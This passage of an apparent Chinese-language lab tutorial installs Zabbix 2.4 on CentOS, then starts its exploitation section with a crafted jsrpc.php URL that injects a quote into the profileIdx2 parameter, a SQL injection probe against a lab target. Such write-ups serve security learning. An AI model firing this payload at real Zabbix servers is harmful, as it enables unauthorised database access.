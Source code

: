 启动Zabbix-Server

```plain
/etc/init.d/zabbix-server start
```

启动Apache

```plain
/etc/init.d/httpd start
```

安装zabbix-agent源码

```plain
rpm -ivh http://repo.zabbix.com/zabbix/2.4/rhel/6/x86_64/zabbix-release-2.4-1.el6.noarch.rpm
```

安装zabbix客户端

```plain
yum install zabbix-agent -y
```

启动服务

```plain
service zabbix-agent start
chkconfig zabbix-agent on
```

最后浏览器访问[http://IP/zabbix进行配置即可。](http://ip/zabbix%E8%BF%9B%E8%A1%8C%E9%85%8D%E7%BD%AE%E5%8D%B3%E5%8F%AF%E3%80%82)

## 3 漏洞利用

**测试环境：**

攻击机win7 ip:192.168.10.138

靶机centos6.5 ip:192.168.10.131

攻击机已知靶机ip，且靶机系统未关闭默认开启guest账户登陆。

在攻击机访问的zabbix的地址后面加上如下url：

```plain
/jsrpc.php?sid=0bcd4ade648214dc&type=9&method=screen.get&tim
estamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=hi
story.php&profileIdx=web.item.graph&profileIdx2=2'3297&updateProfil
e=true&screenitemid=&period=3600&stime=20160817050632&resourcetype=
17&itemids%5B23297%5D=23297&action=showlatest&filter=&filter_task=&
mark_color=1
```

[![](assets/1698897433-79811a96f8559db27b782dc912fe964a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191129181122-986155fe-1290-1.png)
